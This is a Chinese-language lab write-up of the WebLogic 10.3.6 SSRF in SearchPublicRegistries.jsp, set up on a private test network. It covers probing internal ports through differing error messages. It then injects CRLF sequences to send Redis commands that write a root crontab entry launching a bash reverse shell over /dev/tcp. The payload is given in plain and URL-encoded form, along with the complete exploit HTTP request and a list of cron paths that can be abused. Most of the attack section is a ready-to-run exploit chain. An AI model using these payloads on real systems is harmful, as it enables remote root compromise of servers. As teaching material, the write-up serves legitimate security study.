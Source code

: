 ## 环境介绍
| 环境 | 版本/地址 |
| --- | --- |
| weblogic | WebLogic Server Version: 10.3.6.0<br />192.168.200.38 / 172.21.0.3 |
| redis | redis_version:2.8.24<br />172.21.0.2 |

## 背景
Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。SSRF漏洞存在于`http://192.168.200.38:7001/uddiexplorer/SearchPublicRegistries.jsp`
访问一个可以访问的IP:PORT，如http://127.0.0.1:7001
可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回did not have a valid SOAP content-type。

![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_44_NSdKtc8R.png)

修改为一个不存在的端口，将会返回could not connect over HTTP to server

![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_45_0JSfnBWX.png)

通过错误的不同，即可探测内网状态。

## 漏洞利用
### 注入HTTP头，利用Redis反弹shell
Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0d%0a`来注入换行符，而某些服务（如redis写入计划任务(需要运行在centos上，Ubuntu的定时任务会预检格式是否正确，格式不正确无法启动，由于redis备份文件会带上redis特定的标识，所以Ubuntu不能实现定时任务反弹shell)）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。
首先，通过ssrf探测内网中的redis服务器（redis服务在172.21.0.2）

![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_46_QqXmKryi.png)

确定存在redis服务之后，通过注入换行符来写入命令至计划任务

```shell
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.200.38/8888 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
# url 编码为
%73%65%74%20%31%20%22%5c%6e%5c%6e%5c%6e%5c%6e%30%2d%35%39%20%30%2d%32%33%20%31%2d%33%31%20%31%2d%31%32%20%30%2d%36%20%72%6f%6f%74%20%62%61%73%68%20%2d%63%20%27%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%32%30%30%2e%33%38%2f%38%38%38%38%20%30%3e%26%31%27%5c%6e%5c%6e%5c%6e%5c%6e%22%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%69%72%20%2f%65%74%63%2f%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%62%66%69%6c%65%6e%61%6d%65%20%63%72%6f%6e%74%61%62%0d%0a%73%61%76%65
```
注意，换行符是"\r\n"，也就是"%0D%0A"
将url编码后的字符串放在ssrf的域名后面，发送：
```http
GET /uddiexplorer/SearchPublicRegistries.jsp?operator=http://172.21.0.2:6379/%0d%0a%0d%0a%73%65%74%20%31%20%22%5c%6e%5c%6e%5c%6e%5c%6e%30%2d%35%39%20%30%2d%32%33%20%31%2d%33%31%20%31%2d%31%32%20%30%2d%36%20%72%6f%6f%74%20%62%61%73%68%20%2d%63%20%27%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%32%30%30%2e%33%38%2f%38%38%38%38%20%30%3e%26%31%27%5c%6e%5c%6e%5c%6e%5c%6e%22%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%69%72%20%2f%65%74%63%2f%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%62%66%69%6c%65%6e%61%6d%65%20%63%72%6f%6e%74%61%62%0d%0a%73%61%76%65&rdoSearch=name&txtSearchname=11&txtSearchkey=11&txtSearchfor=1111&selfor=Business+location&btnSubmit=Search HTTP/1.1
Host: 192.168.200.38:7001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://192.168.200.38:7001
Connection: close
Referer: http://192.168.200.38:7001/uddiexplorer/SearchPublicRegistries.jsp
Cookie: publicinquiryurls=http://www-3.ibm.com/services/uddi/inquiryapi!IBM|http://www-3.ibm.com/services/uddi/v2beta/inquiryapi!IBM V2|http://uddi.rte.microsoft.com/inquire!Microsoft|http://services.xmethods.net/glue/inquire/uddi!XMethods|; ADMINCONSOLESESSION=RMpshL7ZPJ5PbTd26g8bNMCTjxvT74cgQ4bQv0tBk4BQZ14MhqhK!-1037380163; JSESSIONID=Zw8hhL7JJmZrsn1GXvYh9zThQnctb7SpJGTT9N9kl8DkkDQ32Gjp!-1037380163
Upgrade-Insecure-Requests: 1


```
实际redis服务接收到的请求如下图所示

![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_47_JDVAE1go.png)

写入计划任务后，执行反弹shell命令如下所示

![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_47_NcODZRIa.png)



## 其他
**最后补充一下，可进行利用的cron有如下几个地方：**

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root debian系统下root用户的cron文件
## 参考链接
[https://vulhub.org/#/environments/weblogi.//](https://vulhub.org/#/environments/weblogi.//)

